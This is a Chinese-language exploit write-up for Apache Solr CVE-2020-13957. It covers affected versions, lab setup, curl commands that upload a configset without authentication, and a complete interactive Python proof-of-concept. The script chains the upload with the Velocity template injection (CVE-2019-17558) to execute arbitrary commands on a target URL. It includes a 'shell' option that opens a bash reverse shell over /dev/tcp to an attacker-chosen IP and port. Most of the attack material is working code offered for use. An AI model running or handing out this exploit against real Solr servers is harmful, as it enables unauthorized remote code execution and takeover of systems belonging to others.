

# Apache Solr RCE 未授权上传漏洞 CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 漏洞影响

```
Apache Solr 6.6.0 -6.6.5
Apache Solr 7.0.0 -7.7.3
Apache Solr 8.0.0 -8.6.2
```

## 环境搭建

选择一个存在漏洞的版本

[下载各版本Solr地址](http://archive.apache.org/dist/lucene/solr/)

这里复现使用的是 Apache Solr 7.7.0 进行复现

下载后执行以下命令进行环境部署

```plain
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```plain
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```


将 vuln.zip 进行上传

```plain
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

**n****ame参数为压缩包的文件名**

利用漏洞创建一个 core

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

- name参数为创建的core核心名
- collection.configName参数为上传的文件名



查看core列表，发现已经成功创建


再使用 Apache Solr Velocity模板远程执行 CVE-2019-17558 即可执行任意命令

- POC使用详情参考另一篇复现文章


## 漏洞POC

- 使用前按复现步骤上传对应版本的zip文件，例如我这里上传的文件为 qwert.zip,其他使用方法与 Apache Solr Velocity模板远程执行 CVE-2019-17558 的POC使用方法类似

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import re
import sys
import os
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 6.6.0 -6.6.5        \033[0m')
    print('+  \033[34m         Apache Solr 7.0.0 -7.7.3        \033[0m')
    print('+  \033[34m         Apache Solr 8.0.0 -8.6.2        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2020-13957.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983   \033[0m')
    print('+  \033[36mZip    >>> vuln.zip(Zip文件名)            \033[0m')
    print('+------------------------------------------')


def POC_1(target_url, file_name):
    core_name = str(input("\033[35mPlease input Create Core Name\nCore >>> \033[0m"))
    core_update = """%s/solr/admin/collections?action=CREATE&name=%s&numShards=1&replicationFactor=1&wt=xml&collection.configName=%s""" % (target_url, core_name, file_name.replace(".zip",""))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    response = requests.get(url=core_update, headers=headers, timeout=30)
    if response.status_code != 200:
        print("\033[31m[x] 创建Core失败 \033[0m")
        sys.exit(0)
    else:
        core = re.findall(r'<str name="core">(.*?)</str>',response.text)[0]
        vuln_url = target_url + "/solr/" + core + "/config"
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core + "/config\033[0m")
        return vuln_url,core

def POC_2(target_url, core):
    open_params = target_url + "/solr/" + core + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)


def POC_3(target_url, core, cmd):
    vuln_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vuln_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core, IP, PORT):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, PORT)
    vnul_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = str(input("\033[35mPlease input File Name\nZip >>> \033[0m"))
    vuln_url,core = POC_1(target_url, file_name)
    POC_2(target_url, core)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core, IP, PORT)
        else:
            POC_3(target_url, core, cmd)
```

